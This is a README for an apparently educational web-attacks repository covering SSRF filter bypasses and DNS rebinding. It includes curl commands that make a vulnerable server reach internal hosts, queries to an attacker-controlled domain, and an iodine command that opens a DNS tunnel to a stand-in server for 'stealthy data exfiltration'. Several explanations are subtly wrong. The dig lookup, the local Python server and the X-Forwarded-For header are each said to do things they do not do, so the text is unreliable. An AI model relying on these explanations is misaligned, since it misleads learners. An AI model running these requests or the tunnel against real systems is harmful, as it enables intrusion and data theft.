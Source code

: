 # Introduction to Web Attacks

This repository is dedicated to providing information and examples about various types of web attacks. Web attacks are a major concern in today's internet era, where attackers exploit vulnerabilities in web applications to gain unauthorized access, steal sensitive data, or disrupt services.

## Contents

1. [SSRF Basic Filter Bypasses](#ssrf-basic-filter-bypasses)
2. [DNS Rebinding: SSRF Filter Bypass](#dns-rebinding-ssrf-filter-bypass)
3. [DNSbinding: Same-Origin Policy Bypass](#dns-rebinding-same-origin-policy-bypass)
4. [DNS Rebinding: Tools & Prevention](#dns-rebinding-tools--prevention)
5. [More to come...]

## SSRF Basic Filter Bypasses

Server-Side Request Forgery (SSRF) remains a potent threat to web security. Grasping the essentials of basic filter bypass techniques forms the foundation of effective penetration testing.

### Example Command:

```bash
curl -i http://vulnerable-server.local/request?url=http://internal-server.local/
```

- ![SSRF Basic Command Screenshot](assets/images/ssrf_basic_command.png)
- *Description: This command employs `curl` to access a URL via a susceptible server, exploiting inadequate input validation.*

## DNS Rebinding: SSRF Filter Bypass

DNS Rebinding enhances SSRF attacks by circumventing only DNS-result-checked filters at request time. This section details this tactic through practical commands.

### Commands:

```bash
dig +short attacker-controlled-domain.com
```

- ![DNS Rebinding SSRF Command Screenshot](assets/images/dns_rebinding_ssrf_command.png)
- *Description: This command uses `dig` to inquire an attacker-controlled domain that alternates IP addresses, thus manipulating DNS responses and bypassing SSRF filters.*

```bash
curl -H "X-Forwarded-For: internal-server.local" http://vulnerable-server.local/api
```

- ![SSRF Header Exploit Screenshot](assets/images/ssrf_header_exploit.png)
- *Description: Demonstrates the bypass of SSRF protection via HTTP headers, using `X-Forwarded-For` to masquer as an internal entity.*

## DNS Rebinding: Same-Origin Policy Bypass

The Same-Origin Policy is a vital browser security protocol. DNS Rebinding attacks can bypass this policy to exploit vulnerabilities.

### Test Command:

```bash
python -m SimpleHTTPServer
```

- ![SOP Bypass Command Screenshot](assets/images/sop_bypass_command.png)
- *Description: Establishes a local server to check cross-origin resource sharing (CORS) issues exploitable via DNS Rebinding.*

## DNS Rebinding: Tools & Prevention

Understanding both offensive and defensive tools is crucial in mitigating DNS Rebinding threats. The following tools and commands are recommended.

### Tool Example:

```bash
nslookup your-target-domain.com
```

- ![DNS Tool Command Screenshot](assets/images/dns_tool_command.png)
- *Description: This `nslookup` exploration helps pinpoint potential harmful DNS configurations susceptible to Rebinding attacks.*

```bash
nmap --script=dns-rebinding target-site.com
```

- ![DNS Rebinding Nmap Scan Screenshot](assets/images/dns_rebinding_nmap_scan.png)
- *Description: Utilizes Nmap’s DNS rebinding script to detect vulnerabilities on the target site.*

### Advanced DNS Tunneling Command:

```bash
iodine -f -P password -T CNAME tunnel.your-server.com
```

- ![Advanced DNS Tunneling Screenshot](assets/images/advanced_dns_tunneling.png)
- *Description: Sets up a DNS tunnel using `iodine`, allowing data encapsulation within DNS queries and responses for stealthy data exfiltration.*

## License

This project is under the MIT License. For more details, please refer to the [LICENSE.md](LICENSE.md) file.

This README is crafted to provide a comprehensive yet accessible guide. It serves as an invaluable resource for both novices and seasoned pentesters looking to deepen their understanding of sophisticated network security challenges.  
